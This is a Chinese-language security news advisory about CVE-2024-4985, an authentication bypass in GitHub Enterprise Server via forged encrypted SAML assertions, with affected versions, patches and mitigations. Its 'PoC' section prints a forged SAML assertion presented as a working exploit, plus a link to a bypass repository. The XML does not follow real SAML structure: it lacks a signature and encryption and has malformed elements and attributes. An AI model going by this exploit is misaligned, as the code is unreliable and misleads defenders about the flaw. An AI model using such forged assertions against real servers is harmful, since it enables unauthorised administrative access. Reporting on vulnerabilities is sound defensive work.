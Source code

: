#  可绕过身份验证，GitHub企业服务器曝满分漏洞，附PoC   
 关键基础设施安全应急响应中心   2024-05-23 16:07  
  
近日，安全研究人员披露了GitHub企业服务器（GHES）的关键漏洞（CVE-2024-4985，cvss得分：10.0），该漏洞允许未经授权的攻击者，在不需要预先认证的情况下访问GHES实例。漏洞影响所有GHES 3.13.0之前的版本，并在3.9.15、3.10.12、3.11.10和3.12.4版本中得到修复。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39sRfcKzibspiaPQia7DuebBgxWw21YMe0AHNbLf7o26EicTTNpsTdgcibPhOPiaZFywx3yTIf1phNxZrGQ/640?wx_fmt=jpeg&from=appmsg&wxfrom=13&tp=wxpic "")  
  
目前GitHub已经推出了修复措施，没有发现该漏洞已经被大规模利用，用户可将GHES更新到已修补的版本（3.9.15、3.10.12、3.11.10、3.12.4或更高版本）。如果无法立即更新，考虑暂时禁用SAML认证或加密断言功能作为临时缓解措施。  
  
GHES是一个自托管的软件开发平台，允许组织使用Git版本控制存储和构建软件，并自动化部署流程。  
  
该漏洞利用了GHES处理加密的SAML声明的方式中的一个缺陷。攻击者可以创建一个包含正确用户信息的假SAML声明。当GHES处理一个假的SAML声明时，它将无法正确验证其签名，从而允许攻击者访问GHES实例。  
  
成功利用这个漏洞可能允许未经授权的攻击者获得对GHES实例的完全管理控制权，使他们能够访问所有数据并在系统上执行任何操作。  
  
GitHub进一步指出，默认情况下不启用加密断言，而且此漏洞不影响那些不使用SAML单一登录（SSO）或使用SAML SSO认证但没有加密断言的实例。加密断言允许网站管理员通过在认证过程中对SAML身份提供者（IdP）发送的消息进行加密，来提高GHES实例的安全性。  
### 附PoC  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39sRfcKzibspiaPQia7DuebBgxFsiaiaFicnWIVdfm4ibRFdMW4jG56eZhvzwTKkwkH2EXUO0UoicKLorxqaw/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
```
<Assertion ID="1234567890" IssueInstant="2024-05-21T06:40:00Z" Subject="CN=John Doe,OU=Users,O=Acme Corporation,C=US">  
<Audience>https://your-ghes-instance.com</Audience> 
<SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:assertion:method:bearer">  
<SubjectConfirmationData>      
<NameID Type="urn:oasis:names:tc:SAML:2.0:nameid-type:persistent" Format="urn:oasis:names:tc:SAML:2.0:nameid-format:basic">jdoe</NameID>
</SubjectConfirmationData>
</SubjectConfirmation>
<AuthnStatement AuthnInstant="2024-05-21T06:40:00Z" AuthnContextClassRef="urn:oasis:names:tc:SAML:2.0:assertion:AuthnContextClassRef:unspecified">
<AuthnMethod>urn:oasis:names:tc:SAML:2.0:methodName:password</AuthnMethod>
</AuthnStatement>  <AttributeStatement>
<Attribute Name="urn:oid:1.3.6.1.4.1.11.2.17.19.3.4.0.10">Acme Corporation</Attribute>
<Attribute Name="urn:oid:1.3.6.1.4.1.11.2.17.19.3.4.0.4">jdoe@acme.com</Attribute>
</AttributeStatement></Assertion>
```  
  
**参考资料：**  
  
https://github.com/absholi7ly/Bypass-authentication-GitHub-Enterprise-Server  
  
https://thehackernews.com/2024/05/critical-github-enterprise-server-flaw.html  
  
https://github.com/absholi7ly/Bypass-authentication-GitHub-Enterprise-Server  
  
https://thehackernews.com/2024/05/critical-github-enterprise-server-flaw.html  
  
  
  
原文来源：FreeBuf  
  
“投稿联系方式：010-82992251   sunzhonghao@cert.org.cn”  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/iaz5iaQYxGogvC8qicuLNlkT5ibJnwu1leQiabRVqFk4Sb3q1fqrDhicLBNAqVY4REuTetY1zBYuUdic0nVhZR4FHpAfg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
